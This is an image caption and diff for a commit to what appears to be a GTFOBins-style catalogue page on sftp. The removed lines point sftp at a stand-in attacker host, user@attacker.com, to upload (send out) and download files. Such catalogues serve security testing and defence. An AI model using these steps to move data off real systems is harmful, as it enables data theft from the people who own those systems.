

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/sftp.md, in a window 1280 px wide, cut to the strip 339-824 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update sftp.md

```diff
--- a/_gtfoud/sftp.md
+++ b/_gtfoud/sftp.md
@@ -3,13 +3,11 @@ functions:
   file-upload:
     - description: Send local file to a SSH server.
       code: |
-        RHOST=user@attacker.com
         sftp $RHOST
-        put file_to_send file_to_save
+        put $LFILE $RFILE
   file-download:
     - description: Fetch a remote file from a SSH server.
       code: |
-        RHOST=user@attacker.com
         sftp $RHOST
-        get file_to_get file_to_save
+        get $RFILE $LFILE
 ---
```
